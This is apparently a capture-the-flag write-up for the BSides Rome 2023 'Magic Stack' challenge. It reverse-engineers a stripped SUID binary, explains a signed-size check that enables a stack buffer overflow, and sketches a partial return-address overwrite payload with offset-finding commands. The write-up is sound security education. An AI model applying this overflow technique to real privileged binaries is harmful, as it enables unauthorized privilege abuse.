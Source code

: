 # Challenge: Magic Stack

## Category: PWN

This challenge is part of the '_Bsides Rome 2023_' CTF event hosted by pwnx.io. I blooded for my team: 'ARESTeamITA'.

The challenge let you connet via ssh to a vulnerable machine that has a SUID custom binary. The binary, called 'magic', let you retrieve the flag saved
in another account /home folder as /home/flag.txt.

```bash
ssh user@<CHALLENGE_IP>  # ssh connection
scp user@<CHALLENGE_IP>:/usr/bin/magic ./magic
```

The file was a 64-bit stripped binary as you can see from the output of the ```file``` command:
```
magic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=061c4f61b2214e204f2392bf84a63723dd3973ac, for GNU/Linux 3.2.0, stripped
```

A stripped binary is harder to debug and read but for this challenge gdb and Ghidra are enough.

At this point is important to be precise and note important informations at every step.

+ Step 1: Find the main() function 

For every executable there is an 'entry point' or place where the execution code starts. 
In C/C++ compiled binary the entry point calls main() and prepare the environment using  ```__libc_start_main ```.
This step can be done via Ghidra (find the function) or via gdb that let you know the address 
```
(gdb) info files
	Entry point: 0x401150
```

Now we can read the main function:
```C
undefined8 FUN_0040129b(int param_1,long param_2)

{
  undefined local_26 [10];
  byte local_1c [10];
  byte local_12;
  byte local_11;
  FILE *local_10;
  
  setuid(1000);
  setgid(1000);
  if (param_1 < 2) {
    puts("An argument is required.");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  local_10 = fopen(*(char **)(param_2 + 8),"rb");
  if (local_10 == (FILE *)0x0) {
    puts("[-] Provide a file as input");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  memset(local_1c,0,10);
  fread(local_1c,4,1,local_10);
  local_11 = local_1c[0];
  if ('\n' < (char)local_1c[0]) {
    perror("magic size > MAX_MAGIC_SZ");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_12 = local_1c[0];
  memset(local_26,0,10);
  fread(local_26,(ulong)local_12,1,local_10);
  printf("Magic value: %s\n",local_26);
  return 0;
}
```

A beautified version is :

![beautified](https://github.com/partywavesec/partywavesec.github.io/blob/main/ctf/images/magic_stack_main.png)

The main function accept as first arg a file path that is opened by ```fopen()``` function. An array of 10 char (renamed 'file_content') read 10 bytes from the FILE stream 
and checks if the first char is lower than '\n' char.

A char is a byte and can be represented as decimal, range from (-127,128), in particular '\n' is 0xa or 10 in decimal.

If the previous check is passed the value of the first char read is passed as 'size' argument of the next ```fread()```. *There is something that the attacker can control!*

+ Step 2: Identify how to read the flag

In the 'magic' binary there is another function that reads and prints the flag file:
```c
void FUN_00401236(void) {
  char local_48 [56];
  FILE *local_10;
  
  memset(local_48,0,0x32);
  local_10 = fopen("/home/pwnx/flag.txt","r");
  fread(local_48,0x27,1,local_10);
  puts(local_48);
  return;
}
```

This function is inside our file, we know its address - 0x401236 - but main() never invoke it. The attacker has to change the execution flow.

Note: the address of a function can be obtained via Ghidra or via gdb by manually exploring the code as the binary is stripped

```
(gdb) x/15i 0x401236
   0x401236:	endbr64 
   0x40123a:	push   rbp
   0x40123b:	mov    rbp,rsp
   0x40123e:	sub    rsp,0x40
   0x401242:	lea    rax,[rbp-0x40]
   0x401246:	mov    edx,0x32
   0x40124b:	mov    esi,0x0
   0x401250:	mov    rdi,rax
   0x401253:	call   0x4010f0 <memset@plt>
   0x401258:	lea    rsi,[rip+0xda5]        # 0x402004
   0x40125f:	lea    rdi,[rip+0xda0]        # 0x402006
   0x401266:	call   0x401110 <fopen@plt>
   0x40126b:	mov    QWORD PTR [rbp-0x8],rax
   0x40126f:	mov    rdx,QWORD PTR [rbp-0x8]
   0x401273:	lea    rax,[rbp-0x40]
(gdb) x/2s 0x402004
0x402004:	"r"
0x402006:	"/home/pwnx/flag.txt"
```

+ Step 3: Exploit

The attacker goal now is to use a big number over the second buffer populated by the second ```fread()```.
The tricky part is not difficult, if the the first char overflow 128 is converted as signed int in a negative number that pass the check against '\n'.

For this reason i used '\xff' char = 255 as the first byte of my payload file.

'\n' char is interpreted as 10 and '\xff' as -127 and the ```if('\n' < file_content[0])``` condition is False and the flow can continue.

Now its possible to read a lot of chars, way more than the buffer and override the Istruction Pointer to call the 'read flag' function.
It's enough to create a long strings with the function address or you can calculate the correct offset.


```bash
# no offset
# complete the exploit by yourself now - use \xff
python2 -c 'print [NOW_COMPLETE_PAYLOAD] + "6\x12@\x00\x00\x00\x00\x00" * 100' > runme

/usr/bin/magic <PAYLOAD_FILE>

# calculate offset
msf-pattern_create -l 150
msf-pattern_offset -q <VALUE>
```

![flag](https://github.com/partywavesec/partywavesec.github.io/blob/main/ctf/images/magic_stack_flag.png)
